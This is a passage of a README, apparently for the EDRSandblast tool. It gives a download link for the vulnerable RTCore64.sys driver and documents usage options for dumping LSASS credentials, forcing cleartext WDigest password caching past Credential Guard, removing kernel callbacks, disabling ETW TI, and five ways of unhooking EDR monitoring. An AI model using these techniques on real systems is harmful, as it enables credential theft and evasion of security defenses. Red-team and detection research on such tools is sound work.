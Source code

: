 ## Usage

The vulnerable `RTCore64.sys` driver can be retrieved at:

```
http://download-eu2.guru3d.com/afterburner/%5BGuru3D.com%5D-MSIAfterburnerSetup462Beta2.zip
```

### Quick usage

```
Usage: EDRSandblast.exe [-h | --help] [-v | --verbose] <audit | dump | cmd | credguard> [--usermode [--unhook-method <N>]] [--kernelmode] [--dont-unload-driver] [--dont-restore-callbacks] [--driver <RTCore64.sys>] [--service <SERVICE_NAME>] [--nt-offsets <NtoskrnlOffsets.csv>] [--wdigest-offsets <WdigestOffsets.csv>] [--add-dll <dll name or path>]* [-o | --dump-output <DUMP_FILE>]
```

### Options

```
-h | --help             Show this help message and exit.
-v | --verbose          Enable a more verbose output.

Actions mode:

        audit           Display the user-land hooks and / or Kernel callbacks without taking actions.
        dump            Dump the LSASS process, by default as 'lsass' in the current directory or at the
                        specified file using -o | --output <DUMP_FILE>.
        cmd             Open a cmd.exe prompt.
        credguard       Patch the LSASS process' memory to enable Wdigest cleartext passwords caching even if
                        Credential Guard is enabled on the host. No kernel-land actions required.

--usermode              Perform user-land operations (DLL unhooking).
--kernelmode            Perform kernel-land operations (Kernel callbacks removal and ETW TI disabling).

--unhook-method <N>
   Choose the userland un-hooking technique, from the following:

        1 (Default)     Uses the (probably monitored) NtProtectVirtualMemory function in ntdll to remove all
                        present userland hooks.
        2               Constructs a 'unhooked' (i.e. unmonitored) version of NtProtectVirtualMemory, by
                        allocating an executable trampoline jumping over the hook, and remove all present
                        userland hooks.
        3               Searches for an existing trampoline allocated by the EDR itself, to get an 'unhooked'
                        (i.e. unmonitored) version of NtProtectVirtualMemory, and remove all present userland
                        hooks.
        4               Loads an additional version of ntdll library into memory, and use the (hopefully
                        unmonitored) version of NtProtectVirtualMemory present in this library to remove all
                        present userland hooks.
        5               Allocates a shellcode that uses a direct syscall to call NtProtectVirtualMemory,
                        and uses it to remove all detected hooks

Other options:
```